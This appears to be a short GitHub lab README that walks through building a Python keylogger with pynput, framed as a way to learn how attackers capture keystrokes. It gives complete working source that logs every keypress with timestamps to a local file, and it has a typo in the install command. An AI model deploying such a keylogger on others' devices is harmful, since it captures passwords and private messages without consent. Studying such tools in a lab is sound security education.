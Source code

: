 # Keylogger-lab
Build a keylogger in Python to understand how attackers capture keystrokes.  

## Tools
 - Kali Linux
 - Pynput
 - Python

## Methodology
 ### 1. Install Python and Pynput  
  ```bash
sudo apy intsall python3-pip
pip3 install pynput
```
 ### 2 . Create a Keylogger Script
 - create a python file and paste the code.  
 
 ```bash
from pynput import keyboard
import logging

# Set up logging
log_file = "key_log.txt"
logging.basicConfig(filename=log_file, level=logging.DEBUG, format='%(asctime)s: %(message)s')

def on_press(key):
    try:
        logging.info(f"Key pressed: {key.char}")
    except AttributeError:
        logging.info(f"Special key pressed: {key}")

# Start listening
with keyboard.Listener(on_press=on_press) as listener:
    listener.join()
```

 ### 3. Execute the keylogger
 ```bash
 python3 keylogger.py
 ```

 ### 4. View Logs
  ```bash
cat key_log.txt
  ```
